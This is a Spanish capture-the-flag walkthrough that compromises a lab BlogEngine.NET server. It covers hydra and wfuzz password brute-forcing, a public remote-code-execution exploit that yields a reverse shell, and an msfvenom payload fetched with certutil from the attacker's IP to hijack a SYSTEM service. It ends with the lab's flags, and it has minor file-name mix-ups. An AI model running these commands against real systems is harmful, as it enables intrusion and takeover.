



## Puertos abiertos

```
80/tcp   open  http               Microsoft IIS httpd 8.5
3389/tcp open  ssl/ms-wbt-server?
```

----

### Servicio web 80

Desde el codigo fuente de puede ver la versión del gestor que se está usando

> BlogEngine es una plataforma de blogs de código abierto desde 2007. Fácilmente personalizable. Muchos temas, widgets y complementos integrados gratuitos.



#### Fuzzing

```
> ffuf -w /usr/share/wordlists/dirb/common.txt -u "http://10.10.183.179/FUZZ" -c -t 200
[...]
account                 [Status: 301, Size: 152, Words: 9, Lines: 2]
ADMIN                   [Status: 302, Size: 173, Words: 6, Lines: 4]
Admin                   [Status: 302, Size: 173, Words: 6, Lines: 4]
admin                   [Status: 302, Size: 173, Words: 6, Lines: 4]
aspnet_client           [Status: 301, Size: 158, Words: 9, Lines: 2]
Archive                 [Status: 200, Size: 8325, Words: 1413, Lines: 148]
archives                [Status: 200, Size: 8326, Words: 1413, Lines: 148]
archive                 [Status: 200, Size: 8325, Words: 1413, Lines: 148]
Contact                 [Status: 200, Size: 9935, Words: 1725, Lines: 166]
contacts                [Status: 200, Size: 9936, Words: 1725, Lines: 166]
contactus               [Status: 200, Size: 9937, Words: 1725, Lines: 166]
contactinfo             [Status: 200, Size: 9939, Words: 1725, Lines: 166]
contacto                [Status: 200, Size: 9936, Words: 1725, Lines: 166]
contact_us              [Status: 200, Size: 9938, Words: 1725, Lines: 166]
contact_bean            [Status: 200, Size: 9940, Words: 1725, Lines: 166]
contact                 [Status: 200, Size: 9935, Words: 1725, Lines: 166]
contact-form            [Status: 200, Size: 9940, Words: 1725, Lines: 166]
contact-us              [Status: 200, Size: 9938, Words: 1725, Lines: 166]
Content                 [Status: 301, Size: 152, Words: 9, Lines: 2]
content                 [Status: 301, Size: 152, Words: 9, Lines: 2]
custom                  [Status: 301, Size: 151, Words: 9, Lines: 2]
ContactUs               [Status: 200, Size: 9937, Words: 1725, Lines: 166]
fonts                   [Status: 301, Size: 150, Words: 9, Lines: 2]
robots.txt              [Status: 200, Size: 303, Words: 24, Lines: 12]
Scripts                 [Status: 301, Size: 152, Words: 9, Lines: 2]
scripts                 [Status: 301, Size: 152, Words: 9, Lines: 2]
search_results          [Status: 200, Size: 8415, Words: 1661, Lines: 159]
search                  [Status: 200, Size: 8407, Words: 1661, Lines: 159]
searchnx                [Status: 200, Size: 8409, Words: 1661, Lines: 159]
searchresults           [Status: 200, Size: 8414, Words: 1661, Lines: 159]
search_result           [Status: 200, Size: 8414, Words: 1661, Lines: 159]
setup                   [Status: 302, Size: 175, Words: 6, Lines: 4]
Search                  [Status: 200, Size: 8407, Words: 1661, Lines: 159]
searchurl               [Status: 200, Size: 8410, Words: 1661, Lines: 159]
```

Ingreso al panel login



La forma de enumerar usuarios es mediante el timepo que tarda en responder el servidor.  
Es así que si coloco como nombre de usuario `admin` la solicitud tarda como 5 seg a diferencia de otro usuario que se coloque.



Fuerza bruta a un login con `hydra`

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.183.179 http-form-post "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=BGexSUX7%2FBDBJCeAiL3cWhUsAbrI%2FKwOEQkUdaxcJTcRAvJHYrVkAEfgVWvoNUYTwnrQCBf4pPjsNIDc0QYM8bFG6QVsoY8yQ6rFaYedSOK5XrLPl%2BvlARCdUGDVBwab07g%2FIskzEfmmn5gu9SMg915jx5Y4Rnpcg7AHy0K792nS6bNfJhJ6Y2EQTudCJ1anBkHMEvh6hvRy0F%2BpD%2Bl0vINFRRVMRi4lAPFANNJS8rPnVghxToMvzFIKcIsDPI2nKUz0nLpXTAO%2Bf9kleOKajy38vhNkJGNjZDwMmuN428%2B9Icpx4OBNijMeUBBrT2F%2BD5fSRsPIe7ZqAY6%2FgeN1Up%2BCG4Jfir%2BN1mfo3slXMq5ZFm96&__EVENTVALIDATION=%2BwXF7A76XotdR69XWWs3%2Bra1ujjQ98h5avuzStQvSVnGBqEhYOrWgr6ewkIhx2x%2FjyDDk7O49tQ0V7d8ZP3%2FPi49jOS2I8Lr097P%2Bb2xlpuuHxi9h1nLBd3zVL6V0rwtbrKsrxK1N6brRX66K2aDUbpZiyublD6RwkzWFsfm4ESSpmuS&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -V -f -t 50
```

```
[...]
[ATTEMPT] target 10.10.183.179 - login "admin" - pass "godbless" - 1530 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.183.179 - login "admin" - pass "blue123" - 1531 of 14344399 [child 12] (0/0)
[ATTEMPT] target 10.10.183.179 - login "admin" - pass "alonso" - 1532 of 14344399 [child 29] (0/0)
[ATTEMPT] target 10.10.183.179 - login "admin" - pass "meghan" - 1533 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.183.179 - login "admin" - pass "garrett" - 1534 of 14344399 [child 32] (0/0)
[ATTEMPT] target 10.10.183.179 - login "admin" - pass "mykids" - 1535 of 14344399 [child 40] (0/0)
[80][http-post-form] host: 10.10.183.179   login: admin   password: 1qaz2wsx
[STATUS] attack finished for 10.10.183.179 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
[...]
```

Otra forma de ataque de fuerza bruta es con la herramienta `wfuzz` filtrando por el numero de palabras

```
❯ wfuzz -w /usr/share/wordlists/rockyou.txt -u "http://10.10.183.179/Account/login.aspx?ReturnURL=/admin" -X POST -d '__VIEWSTATE=BGexSUX7%2FBDBJCeAiL3cWhUsAbrI%2FKwOEQkUdaxcJTcRAvJHYrVkAEfgVWvoNUYTwnrQCBf4pPjsNIDc0QYM8bFG6QVsoY8yQ6rFaYedSOK5XrLPl%2BvlARCdUGDVBwab07g%2FIskzEfmmn5gu9SMg915jx5Y4Rnpcg7AHy0K792nS6bNfJhJ6Y2EQTudCJ1anBkHMEvh6hvRy0F%2BpD%2Bl0vINFRRVMRi4lAPFANNJS8rPnVghxToMvzFIKcIsDPI2nKUz0nLpXTAO%2Bf9kleOKajy38vhNkJGNjZDwMmuN428%2B9Icpx4OBNijMeUBBrT2F%2BD5fSRsPIe7ZqAY6%2FgeN1Up%2BCG4Jfir%2BN1mfo3slXMq5ZFm96&__EVENTVALIDATION=%2BwXF7A76XotdR69XWWs3%2Bra1ujjQ98h5avuzStQvSVnGBqEhYOrWgr6ewkIhx2x%2FjyDDk7O49tQ0V7d8ZP3%2FPi49jOS2I8Lr097P%2Bb2xlpuuHxi9h1nLBd3zVL6V0rwtbrKsrxK1N6brRX66K2aDUbpZiyublD6RwkzWFsfm4ESSpmuS&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=FUZZ&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in' --hw 241 -c -t 50
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.183.179/Account/login.aspx?ReturnURL=/admin
Total requests: 14344392

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                      
=====================================================================

000001420:   302        3 L      8 W        143 Ch      "1qaz2wsx"
[...]
```

Panel de administrador


Busqueda de exploits para esta versión

```
❯ searchsploit blogengine 3.3.6
------------------------------------------------------------------------------------------------------------------------------------------------------------ ------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ------------------------
BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution                                                                                          | aspx/webapps/46353.cs
BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execution                                                                          | aspx/webapps/47010.py
BlogEngine.NET 3.3.6/3.3.7 - 'path' Directory Traversal                                                                                                     | aspx/webapps/47035.py
BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' Directory Traversal / Remote Code Execution                                                                     | aspx/webapps/47011.py
BlogEngine.NET 3.3.6/3.3.7 - XML External Entity Injection                                                                                                  | aspx/webapps/47014.py
------------------------------------------------------------------------------------------------------------------------------------------------------------ ------------------------
```

### Shell como usuario blog

**2019-10720**: BlogEngine.NET 3.3.7.0 y versiones anteriores permiten el recorrido de directorio y la ejecución remota de código a través de la cookie del tema en el Administrador de archivos. NOTA: este problema existe debido a una solución incompleta para CVE-2019-6714

Realizando algunos cambios como eliminar el paraámetro de proxies al exploit `aspx/webapps/47014.py`, obtengo una shell

```
❯ python3 47011.py  -t 10.10.183.179 -u admin -p 1qaz2wsx -l 10.9.102.237:1337

──────────────────────────────────────────────────────────────────────────────────
❯ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.9.102.237] from (UNKNOWN) [10.10.183.179] 49248
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
c:\windows\system32\inetsrv>whoami
iis apppool\blog
```

## Escalada de Privilegios

[https://www.exploit-db.com/exploits/45072](https://www.exploit-db.com/exploits/45072)

> Splinterware System Scheduler Pro 5.12 sufre de escalada de privilegios debido a permisos de archivo inseguros

Enumerando el sistema encuentro cosas interesantes

```
c:\Program Files (x86)>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of c:\Program Files (x86)
08/06/2019  02:12 PM    <DIR>          .
08/06/2019  02:12 PM    <DIR>          ..
08/22/2013  08:39 AM    <DIR>          Common Files
03/21/2014  12:07 PM    <DIR>          Internet Explorer
08/22/2013  08:39 AM    <DIR>          Microsoft.NET
08/04/2019  04:37 AM    <DIR>          SystemScheduler
08/22/2013  08:39 AM    <DIR>          Windows Mail
08/22/2013  08:39 AM    <DIR>          Windows NT
08/22/2013  08:39 AM    <DIR>          WindowsPowerShell
               0 File(s)              0 bytes
```

Output de WinPeas

```
[...]
=================================================================================================                                   
 WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running   
 File Permissions: Everyone [WriteData/CreateFiles]                                                                                 
 Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])                 
 System Scheduler Service Wrapper                                                                                                   
=================================================================================================                                   
[...]
```

Verificando permisos

```
icacls "c:\Program Files (x86)\SystemScheduler"
C:\Windows\Temp>icacls "c:\Program Files (x86)\SystemScheduler"
c:\Program Files (x86)\SystemScheduler Everyone:(OI)(CI)(M)
                                       NT SERVICE\TrustedInstaller:(I)(F)
                                       NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                                       NT AUTHORITY\SYSTEM:(I)(F)
                                       NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                                       BUILTIN\Administrators:(I)(F)
                                       BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                                       BUILTIN\Users:(I)(RX)
                                       BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                                       CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                                       APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                       APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
```

```
C:\Windows\Temp>sc qc WindowsScheduler
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: WindowsScheduler
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : System Scheduler Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

Pero en este caso modifico `Message.exe`

Creo un exe malicioso

```
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.102.237 LPORT=4444 -f exe -o WService.exe
```

Renombro el ejecutable y descargo el exe malicioso

```
ren Message.exe Message.exe.bak
certutil.exe -f -urlcache -split "http://10.9.102.237:8000/Message.exe"
```

Despues de que se ejecute la tarea programa obtengo una shell como administrador

```
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.102.237] from (UNKNOWN) [10.10.183.179] 49302
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\PROGRA~2\SYSTEM~1>whoami
whoami

C:\Users\Administrator\Desktop>type root.txt
type root.txt
7e13d97f05f7ceb9881a3eb3d78d3e72
C:\Users\Administrator\Desktop>cd ..

[...]

C:\Usertype jeff\desktop\user.txt
type jeff\desktop\user.txt
759bd8af507517bcfaede78a21a73e39
```
